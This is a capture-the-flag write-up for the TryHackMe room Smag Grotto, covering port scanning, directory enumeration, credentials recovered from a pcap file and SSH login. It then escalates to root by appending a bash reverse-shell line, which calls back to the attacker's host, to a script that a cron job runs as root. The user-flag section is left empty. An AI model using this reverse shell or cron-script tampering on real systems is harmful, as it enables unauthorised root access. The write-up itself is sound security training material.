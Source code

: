 # Smag Grotto

<div align="left">

<figure><img src="../.gitbook/assets/image (117).png" alt=""><figcaption><p>tryhackme.com - © TryHackMe</p></figcaption></figure>

</div>

🔗 [Smag Grotto](https://tryhackme.com/room/smaggrotto)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.137.60`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.71.2 smag.thm" >> /etc/hosts

mkdir thm/smag.thm
cd thm/smag.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 smag.thm
PING smag.thm (10.10.71.2) 56(84) bytes of data.
64 bytes from smag.thm (10.10.71.2): icmp_seq=2 ttl=63 time=97.3 ms
64 bytes from smag.thm (10.10.71.2): icmp_seq=3 ttl=63 time=68.6 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

### 2.1 - What is the secret spicy soup recipe?

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 smag.thm -oG nmap/port_scan
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-31 18:24 EDT
Initiating SYN Stealth Scan at 18:24
Scanning smag.thm (10.10.71.2) [65536 ports]
Discovered open port 80/tcp on 10.10.71.2
Discovered open port 22/tcp on 10.10.71.2
Completed SYN Stealth Scan at 18:24, 18.21s elapsed (65536 total ports)
Nmap scan report for smag.thm (10.10.71.2)
Host is up, received user-set (1.8s latency).
Scanned at 2023-07-31 18:24:20 EDT for 19s
Not shown: 59890 closed tcp ports (reset), 5644 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 22, 80.

Now, we need to search which services are running on open ports:

```bash
nmap -p22,80 -n -Pn -vvv -sCV --min-rate 5000 smag.thm -oN nmap/open_port
```

We can start to explore website (80):

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-31-11 (1).png" alt=""><figcaption></figcaption></figure>

we see that website is under development, it means that can be vulnerabilities, try to explore source code:

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-31-37.png" alt=""><figcaption></figcaption></figure>

Nothing of interesting! We can try to use gobuster to search hidden paths:

```bash
gobuster dir -u http://smag.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

```bash
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://smag.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/31 18:35:16 Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 303] [--> http://smag.thm/mail/]
Progress: 87664 / 87665 (100.00%)
===============================================================
2023/07/31 18:45:07 Finished
===============================================================
```

We find 'only' this good path: http:\\\smag.thm/mail

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-38-33.png" alt=""><figcaption><p><a href="https://http/smag.thm/mail">http:\\smag.thm/mail</a></p></figcaption></figure>

Give focus on this .pcap file (wireshark extension), how first paragraph suggests, we can download all attachments using wget command.

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-39-26.png" alt=""><figcaption></figcaption></figure>

We can open file downloaded using wireshark or command strings:

```
strings dHJhY2Uy.pcap 
```

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-49-23.png" alt=""><figcaption></figcaption></figure>

</div>

There's a fantastic info: username=helpdesk\&password=cH4nG3M3\_n0w

We can use this credentials to try ssh access:

```bash
ssh helpdesk@smag.thm
```





### Task 3 - What is the user flag? 

\


We quickly try to find user.txt flag using find command:\


```bash
```







```bash
```

<details>

<summary>🚩 Flag 1 (user.txt)</summary>



</details>

### Task 4 - What is the root flag? 



We can continue to explore files:

```bash
ls -lah *
    -rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
    
    Documents:
    total 20K
    drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
    -rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
    -rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
    
    scripts:
    total 16K
    drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
    -rw-r--r-- 1 root   root      1 May 15 13:38 startup_list.txt

cat scripts/*
cat Documents/*
cat /etc/print.sh
ls -lah /etc/print.sh
	-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

We see that planner.sh will be run as root (with a cron job), and use /etc/print.sh with lennie permission, we can modify it inserting a reverse shell as payload:

```bash
echo "/bin/bash -i >& /dev/tcp/10.9.80.228/666 0>&1" >> /etc/print.sh                                                     
```

Then, we run on our kali machine netcat on the same port (666):

```bash
nc -nvlp 666
```

and wait root that will run the planner.sh script once a minute.

<figure><img src="../.gitbook/assets/Schermata del 2023-07-30 12-37-21.png" alt=""><figcaption></figcaption></figure>

Well done! We find root flag:

```bash
ls
cat root.txt
```

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-07-30 12-38-55.png" alt=""><figcaption></figcaption></figure>

</div>

<details>

<summary>🚩 Flag 2 (root.txt)</summary>



</details>
